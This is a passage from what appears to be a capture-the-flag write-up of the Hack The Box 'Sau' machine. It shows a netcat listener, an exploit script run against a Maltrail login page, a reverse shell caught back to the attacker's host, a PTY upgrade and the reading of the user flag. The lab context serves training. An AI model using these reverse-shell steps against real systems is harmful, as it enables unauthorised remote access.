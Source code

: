 <br />
Start a listener.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/sau]
└─$ sudo nc -nlvp 443                            
[sudo] password for kali: 
listening on [any] 443 ...
```
{% endraw %}

<br />
Run the exploit.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/sau]
└─$ python3 mailexploit.py 10.10.16.12 443 http://10.10.11.224:55555/koicwd
Running exploit on http://10.10.11.224:55555/koicwd/login
```
{% endraw %}

<br />
Check the listener and catch the shell.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/sau]
└─$ sudo nc -nlvp 443                            
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.16.12] from (UNKNOWN) [10.10.11.224] 34026
$ python3 -c 'import pty; pty.spawn("/bin/bash");'
python3 -c 'import pty; pty.spawn("/bin/bash");'
puma@sau:/opt/maltrail$
```
{% endraw %}

<br />
Snag that user.txt flag.

{% raw %}
```sh
puma@sau:~$ cat user.txt
cat user.txt
<redacted>
puma@sau:~$ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:d4:ca brd ff:ff:ff:ff:ff:ff
    inet 10.10.11.224/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:d4ca/64 scope global dynamic mngtmpaddr 
       valid_lft 86399sec preferred_lft 14399sec
    inet6 fe80::250:56ff:feb9:d4ca/64 scope link 
       valid_lft forever preferred_lft forever
```
{% endraw %}
